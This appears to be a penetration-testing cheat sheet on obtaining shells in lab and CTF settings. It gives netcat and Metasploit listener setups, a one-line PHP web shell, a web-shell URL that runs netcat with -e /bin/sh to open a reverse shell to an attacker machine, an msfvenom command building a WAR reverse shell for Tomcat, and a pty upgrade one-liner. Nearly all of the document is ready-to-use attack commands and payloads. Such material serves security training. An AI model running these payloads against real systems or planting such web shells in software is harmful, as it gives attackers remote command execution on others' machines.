 # Shells
For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

## Listeners
Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port. 

### Netcat listener
Using ports 80 or 443 will help you get around egress filtering:
```
nc -lvp 443
```
### Meterpreter listener
You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

## Simple PHP web shell
Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

```
<?php echo shell_exec($_GET['cmd']); ?>
```
You can use it for system commands: 
```
http://[host]/wordpress/index.php?cmd=id
```
You can also use it to create a reverse shell:
```
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```
## Better PHP shell
This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:
```
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```
## WAR shell
If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```

## Upgrading shell

```
python -c 'import pty; pty.spawn("/bin/bash");'
```
